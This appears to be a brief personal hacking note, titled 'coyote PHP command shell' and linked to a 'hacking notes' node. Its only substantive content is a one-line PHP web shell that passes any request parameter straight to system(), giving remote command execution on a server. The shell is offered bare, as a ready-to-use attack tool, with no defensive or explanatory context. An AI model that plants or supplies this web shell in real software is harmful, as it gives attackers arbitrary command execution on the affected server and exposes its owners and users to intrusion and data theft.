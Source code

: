 # coyote PHP command shell
```php
<?php system($_REQUEST[0]); ?>
```


` zet/20221003150558/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

Tags:

    
